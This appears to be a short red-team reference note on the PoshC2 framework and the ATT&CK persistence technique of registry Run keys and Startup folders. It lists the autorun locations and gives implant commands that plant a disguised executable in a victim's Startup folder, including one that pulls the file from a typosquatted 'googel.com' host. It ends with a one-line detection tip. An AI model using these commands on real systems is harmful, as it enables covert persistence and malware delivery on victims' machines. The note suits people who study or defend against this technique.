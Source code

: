 # [Registry Run Keys / Startup Folder](https://attack.mitre.org/techniques/T1547/001/)

## Folder Locations: 
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
C:\Users[Username]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

## Exploit syntax:
* Reference [Modify registry](/Poshc2/instructions/Modify_registry.md) for syntax to add a key to run or runonce keys within victim registry

* In posh via an implant:

```powershell

upload-file -source '/var/TotallyLegitProgram.exe' -destination 'C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUpTLP.exe'

```

* Alernatively, have the implant call out to malicious site to pull the file:

```powershell

web-upload-file -from 'http://googel.com/googelchrom.exe' -to 'C:\\Users[Username]\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startupchrom.exe'

```

## Detection Technique:
* Investigating registry Run and Startup folder